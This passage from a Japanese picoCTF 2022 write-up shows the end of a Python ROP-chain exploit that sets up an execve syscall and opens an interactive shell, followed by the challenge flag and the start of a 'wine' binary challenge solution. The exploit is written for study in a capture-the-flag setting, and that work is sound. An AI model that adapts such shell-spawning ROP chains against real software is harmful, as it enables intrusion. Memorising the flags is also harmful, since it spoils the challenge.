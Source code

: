 ```Python
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80

s.sendlineafter("grasshopper!\n", p)
s.interactive()
```

<br />

Flag: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`




<br /><br />
<br /><br />
## [Binary]: wine (300 points)
- - -
### Challenge
> Challenge best paired with wine.
<br /><br />
I love windows. Checkout my exe running on a linux box.

Attachment:

- vuln.exe
- vuln.c


<br />

### Solution
最初、Ghidraでよくわからなかったので、Immunity Debuggerで見てみました。

<img src="https://captureamerica.github.io/writeups/img/pico2022_wine_immunity.png" alt="pico2022_wine_immunity.png">

win()関数のアドレスは、0x401530のようです。

<br />
